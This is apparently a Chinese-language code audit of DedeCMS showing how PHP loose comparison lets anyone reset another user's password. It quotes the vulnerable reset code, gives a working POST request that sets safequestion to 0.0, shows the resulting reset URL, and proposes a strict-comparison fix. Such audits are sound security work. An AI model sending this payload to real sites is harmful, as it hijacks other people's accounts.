



# DeDeCMS代码审计

# 任意用户密码修改

漏洞成因： php弱类型比较，通过将safequestion置为**0.0**，绕过empty()，及safequestion 数值的比较，最终达到修改密码的效果

**弱类型比较**

> **php弱类型变量**是指,在声明一个变量时,我们不需要指明它保存的数据类型。
>
> **php数据类型**：String（字符串）, Integer（整型）, Float（浮点型）, Boolean（布尔型）, Array（数组）, Object（对象）, NULL（空值）。
>
> php虽然属于弱语言，但是里面也有一些强语言类型相关的强制定义数据类型的方法
>
> 比如php里的 == 和 === 之间的区别
> == 为松散比较 只比较值，不比较数据类型
>
> 而 === 为严格比较，不仅比较值也比较类型，可以看作是强语言的强制数据类型要相同
>
> 下面给一个例子

```
<?php
var_dump("admin"==0);  //true
var_dump("1admin"==1); //true
var_dump("admin1"==1) //false
var_dump("admin1"==0) //true
var_dump("0e123456"=="0e4456789"); //true 
?> 
```

**漏洞代码文件**

> /dedecms/member/resetpassword.php

我们首先确认下网站功能逻辑



> 在修改密码处，有2种修改密码的方法，一是通过绑定邮箱，二是通过安全问题。
>
> 但是dedecms的问题是，用户注册过程中，并不是强制需要设置安全问题。所以一些用户的安全问题是空的，**这也是我们进行漏洞利用的前提。**

漏洞代码

```
elseif($dopost == "safequestion")
{
	$mid = ereg_replace("[^0-9]","",$id);
	$sql = "Select safequestion,safeanswer,userid,email From #@__member where mid = '$mid'";
	$row = $db->GetOne($sql);
	if(empty($safequestion))
	{
		$safequestion = '';
	}
	if(empty($safeanswer))
	{
		$safeanswer = '';
	}
	if($row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer)
	{
		sn($mid,$row['userid'],$row['email'],'N');
		exit();
	}
	else
	{
		ShowMsg("对不起，您的安全问题或答案回答错误","-1");
		exit();
	}

}
```

> 在代码中，safequestion 参数可控，若没有设置密保问题的用户，参数值默认为0.
>
> **empty()  绕过 ：** 将$safequestion 置为0.0 可绕过empty() 函数检测
>
> ```
> if(empty($safequestion))
> 	{
> 		$safequestion = '';
> 	}
> ```
>
> **弱类型比较**：$row['safequestion'] == $safequestion    在php中 0==0.0 成立。
>
> ​						$row['safeanswer'] == $safeanswer   不输入的情况下，空=空 成立。
>
> ```
> if($row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer)
> 	{
> 		sn($mid,$row['userid'],$row['email'],'N');
> 		exit();
> 	}
> ```
>
> 



> member/inc/inc_pwd_functions.php

查询账号及发送邮件的过程:

```
function sn($mid,$userid,$mailto, $send = 'Y')
{
	global $db;
	$tptim= (60*10);
	$dtime = time();
	$sql = "Select * From #@__pwd_tmp where mid = '$mid'";
	$row = $db->GetOne($sql);
	if(!is_array($row))
	{

		//发送新邮件；
		newmail($mid,$userid,$mailto,'INSERT',$send);
	}

	//10分钟后可以再次发送新验证码；
	elseif($dtime - $tptim > $row['mailtime'])
	{
		newmail($mid,$userid,$mailto,'UPDATE',$send);
	}

	//重新发送新的验证码确认邮件；
	else
	{
		return showmsg('对不起，请10分钟后再重新申请', 'login.php');
	}
}
```


```
function newmail($mid,$userid,$mailto,$type,$send)
{
	global $db,$cfg_adminemail,$cfg_webname,$cfg_basehost,$cfg_memberurl;
	$mailtime = time();
	$randval = random(8);
	$mailtitle = $cfg_webname.":密码修改";
	$mailto = $mailto;
	$headers = "From: ".$cfg_adminemail."\r\nReply-To: $cfg_adminemail";
	$mailbody = "亲爱的".$userid."：\r\n您好！感谢您使用".$cfg_webname."网。\r\n".$cfg_webname."应您的要求，重新设置密码：（注：如果您没有提出申请，请检查您的信息是否泄漏。）\r\n本次临时登陆密码为：".$randval." 请于三天内登陆下面网址确认修改。\r\n".$cfg_basehost.$cfg_memberurl."/resetpassword.php?dopost=getpasswd&id=".$mid;
	if($type == 'INSERT')
	{
		$key = md5($randval);
		$sql = "INSERT INTO `#@__pwd_tmp` (`mid` ,`membername` ,`pwd` ,`mailtime`)VALUES ('$mid', '$userid',  '$key', '$mailtime');";
		if($db->ExecuteNoneQuery($sql))
		{
			if($send == 'Y')
			{
				sendmail($mailto,$mailtitle,$mailbody,$headers);
				return showmsg('EMAIL修改验证码已经发送到原来的邮箱请查收', 'login.php','','5000');
			}
			elseif($send == 'N')
			{
				return showmsg('稍后跳转到修改页', $cfg_basehost.$cfg_memberurl."/resetpassword.php?dopost=getpasswd&amp;id=".$mid."&amp;key=".$randval);
			}
		}
		else
		{
			return showmsg('对不起修改失败，请联系管理员', 'login.php');
		}
	}
	elseif($type == 'UPDATE')
	{
		$key = md5($randval);
		$sql = "UPDATE `#@__pwd_tmp` SET `pwd` = '$key',mailtime = '$mailtime'  WHERE `mid` ='$mid';";
		if($db->ExecuteNoneQuery($sql))
		{
			if($send == 'Y')
			{
				sendmail($mailto,$mailtitle,$mailbody,$headers);
				showmsg('EMAIL修改验证码已经发送到原来的邮箱请查收', 'login.php');
			}
			elseif($send == 'N')
			{
				return showmsg('稍后跳转到修改页', $cfg_basehost.$cfg_memberurl."/resetpassword.php?dopost=getpasswd&amp;id=".$mid."&amp;key=".$randval);
			}
		}
		else
		{
			showmsg('对不起修改失败，请与管理员联系', 'login.php');
		}
	}
}
```

> 通过验证密保成功后，数据表会随机生成一个随机密码，$key = md5($randval)（八位随机字符MD5后的值），之后进行跳转
>
> ```
> return showmsg('稍后跳转到修改页', $cfg_basehost.$cfg_memberurl."/resetpassword.php?dopost=getpasswd&amp;id=".$mid."&amp;key=".$randval);
> ```

函数调用过程

```
resetpassword.php>>>>function sn>>>>>function newmail
```

# 复现过程

payload

在修改密码处，发出如下数据包

```
POST /member/resetpassword.php HTTP/1.1
Host: www.test.com
Content-Length: 65
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.test.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://www.test.com/member/resetpassword.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=stt0h189i8cen6p09pk2d7sep1; DedeUserID=4; DedeUserID__ckMd5=fa34ad9424a32421; DedeLoginTime=1664795872; DedeLoginTime__ckMd5=8863b846c6eebbf8
Connection: close

dopost=safequestion&id=4&userid=test&vdcode=RSUH&safequestion=0.0
```



得到修改密码地址，注意这边要把&amp删除，另外**key**之前要加上一个**?**

```
http://www.test.com/member/resetpassword.php?dopost=getpasswd&id=4&key=aiXu0rKW
```


# 修复方案

密保问题处，设为强类型比较

```
	if($row['safequestion'] === $safequestion && $row['safeanswer'] === $safeanswer)
	{
		sn($mid,$row['userid'],$row['email'],'N');
		exit();
	}
```


